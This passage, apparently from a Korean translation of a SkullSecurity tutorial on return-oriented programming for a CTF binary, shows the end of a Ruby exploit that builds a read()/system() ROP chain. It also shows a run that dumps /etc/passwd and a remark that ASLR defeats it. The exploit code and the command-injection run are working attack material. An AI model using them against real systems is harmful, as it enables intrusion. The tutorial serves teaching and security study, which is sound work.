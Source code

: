 ``` ruby
  [
    # system()'s stack frame
    buf,         # writable memory (cmd buf)
    0x44444444,  # system()'s return address

    # pop/pop/pop/ret's stack frame
    system_addr, # pop/pop/pop/ret's return address

    # read()'s stack frame
    cmd.length,  # number of bytes
    buf,         # writable memory (cmd buf)
    0,           # stdin
    pppr_addr,   # read()'s return address

    read_addr # Overwrite the original return
  ].reverse.pack("I*") # Convert a series of 'ints' to a string

# Write the 'exploit' payload
s.write(payload)

# When our payload calls read() the first time, this is read
s.write(cmd)

# Read the response from the command and print it to the screen
puts(s.read)

# Clean up
s.close()
```


그리고 실행하게 되면, 예상한 결과를 얻습니다.

``` sh
$ ruby sploit.rb "cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
...
```


그리고 [코어 덤프][core dump]를 보면, 예상한 대로 `0x44444444`에서 크래시를
일으키고 있습니다.

[core dump]: https://en.wikipedia.org/wiki/Core_dump


끝났습니다. 그렇죠?


실은 아닙니다!


이 취약점 공격 스크립트는 제 테스트 기기에서 완벽하게 작동하지만, ASLR이
적용되었다면 실패합니다.

``` sh
$ sudo sysctl -w kernel.randomize_va_space=1
kernel.randomize_va_space = 1
ron@debian-x86 ~ $ ruby sploit.rb "cat /etc/passwd"
```


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://wiki.skullsecurity.org/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment